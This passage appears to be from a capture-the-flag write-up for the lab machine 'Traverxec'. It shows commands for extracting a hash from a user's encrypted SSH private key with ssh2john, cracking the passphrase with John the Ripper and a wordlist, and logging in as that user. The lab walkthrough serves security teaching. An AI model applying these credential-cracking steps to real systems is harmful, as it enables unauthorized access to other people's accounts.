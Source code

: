Going into the directory ./home/david/.ssh and looking at the id\_rsa key file, we see that it is encrypted

```bash
┌─[rin@parrot]─[~/boxes/Traverexec/files/home/david/.ssh]
└──╼ $cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F
<SNIP>
-----END RSA PRIVATE KEY-----
```

And sure enough, when we try and use it to SSH using the user david, we get prompted for a password. The password we used for the web page doesn't work however. Nor does it work when using it as david's actual login password. We can try and crack the id\_rsa key by using ssh2john.py which will extract a password hash from the SSH key in a format that John understands:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Traverexec/files/home/david/.ssh]
└──╼ $python2 /usr/share/john/ssh2john.py id_rsa > hash.txt
```

Again, we can then crack this with John The Ripper:

```bash
┌─[rin@parrot]─[~/boxes/Traverexec/files/home/david/.ssh]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt \
    hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH 
    (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) 
    is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it 
    will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key 
    for status
hunter (id_rsa)
```

When we try and SSH now and use the password hunter, we get in!

```bash
┌─[rin@parrot]─[~/boxes/Traverexec/files/home/david/.ssh]
└──╼ $ssh -i ./id_rsa david@traverexec.htb
Enter passphrase for key './id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2
    +deb10u1 (2019-09-20) x86_64
Last login: Tue Dec 29 07:54:43 2020 from 10.10.14.117
david@traverxec:~$
```
